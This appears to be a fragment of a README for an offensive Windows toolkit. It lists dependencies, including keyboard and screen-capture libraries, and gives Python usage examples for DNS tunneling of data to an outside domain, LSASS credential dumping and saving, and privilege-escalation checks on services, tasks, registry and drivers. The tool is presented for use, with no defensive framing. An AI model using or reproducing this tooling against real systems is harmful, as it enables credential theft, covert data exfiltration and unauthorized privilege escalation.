 ### Core Dependencies
- Flask 2.0.1
- Cryptography 3.4.7
- PyCryptodome 3.10.1
- Requests 2.26.0

### Windows-Specific Dependencies
- PyWin32 303
- PyWin32-ctypes 0.2.2
- PyWin32-security 0.1.0
- PyWin32-netcon 0.1.0
- PyWin32-service 0.1.0
- PyWin32-serviceutil 0.1.0

### Additional Dependencies
- dnspython 2.1.0
- psutil 5.8.0
- pyautogui 0.9.53
- keyboard 0.13.5
- opencv-python 4.5.3.56
- numpy 1.21.2
- pillow 8.3.2

## Usage Examples

### DNS Tunneling
```python
tunnel = DNSTunnel("example.com")
tunnel.start_tunnel(callback=handle_data)
tunnel.send_data("test message")
```

### Credential Dumping
```python
cred_dump = CredentialDump()
if cred_dump.check_admin():
    cred_dump.dump_lsass()
    credentials = cred_dump.get_windows_credentials()
    cred_dump.save_credentials(credentials)
```

### Privilege Escalation
```python
priv_esc = PrivilegeEscalation()
findings = {
    'services': priv_esc.check_windows_services(),
    'tasks': priv_esc.check_scheduled_tasks(),
    'registry': priv_esc.check_registry(),
    'drivers': priv_esc.check_drivers()
}
priv_esc.save_report(findings)
```
